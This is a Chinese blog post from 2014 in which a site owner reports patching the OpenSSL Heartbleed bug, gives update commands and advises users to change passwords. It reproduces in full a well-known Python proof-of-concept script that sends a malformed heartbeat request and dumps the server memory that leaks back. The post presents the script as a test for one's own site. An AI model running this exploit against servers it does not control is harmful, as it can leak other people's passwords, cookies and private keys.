 ```yaml
---
title: 已修复 OpenSSL 心脏出血漏洞
tags:
  - CVE-2014-0160
  - OpenSSL
  - 心脏出血漏洞
id: 945
categories:
  - 信息安全
date: 2014-04-11 18:29:18
---
```


[![heartbleed](/uploads/2014/04/heartbleed.png)](/uploads/2014/04/heartbleed.png)

OpenSSL 在 2014 年 4 月 7 日爆出[心脏出血漏洞](https://zh.wikipedia.org/wiki/%E5%BF%83%E8%84%8F%E5%87%BA%E8%A1%80%E6%BC%8F%E6%B4%9E)（Heartbleed Vulnerability），本站也受到了影响，但我已经在第二天（4 月 8 日）通过更新 OpenSSL 的方式修复了漏洞，又在第三天（4 月 9 日）重新购买了 sinosky.org 的 SSL 证书，并 reissue 了 ezdl.it 的证书。

&nbsp;

受此漏洞影响的版本有 OpenSSL 1.0.2-beta 及 OpenSSL 1.0.1 - OpenSSL 1.0.1f，您可以通过更新 OpenSSL 至 1.0.1g 版本的方式自行修复此漏洞，修复漏洞后千万不要忘了重启相关的 web 服务（如 Apache、Nginx、Httpd 等）。

Debian、Red Hat Enterprise Linux（及其派生版，如 CentOS、Amazon Linux）和 Ubuntu（及其派生版，如 Linux Mint）等 Linux 发行版已经修复了此漏洞，但没有更改库版本。

Debian、Ubuntu 等：

<pre class="lang:sh" >
[sudo] apt-get update
[sudo] apt-get dist-upgrade
[sudo] apt-get install openssl libssl1.0.0 #安装最新版的 OpenSSL
</pre>

Red Hat Enterprise Linux、CentOS 等:

<pre class="lang:sh" >
[sudo] yum update
</pre>

&nbsp;

此漏洞使攻击者可以获取到被攻击网站的用户密码、cookie、SSL 证书的私钥等敏感信息，所以在修复此漏洞后，您应该立即更新 SSL 证书并通知用户修改密码。

ezdl.it 并不存储您 Google 账户的密码，但 Google 同样受到了此漏洞的影响，所以我仍建议您更改 Google 账户的密码。

&nbsp;

您可以使用 [Heartbleed test](http://filippo.io/Heartbleed/) 或以下代码来测试网站是否有此漏洞。

<pre class="lang:python" >
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.

import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')

def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b : b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print

def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata

def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay

def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()

</pre>

&nbsp;

央视也在今天（4 月 11 日）曝光了此漏洞，并称多数受影响的网站未告知用户已修复此漏洞，央视的采访还发现大部分网民并不知道或关心这个漏洞。
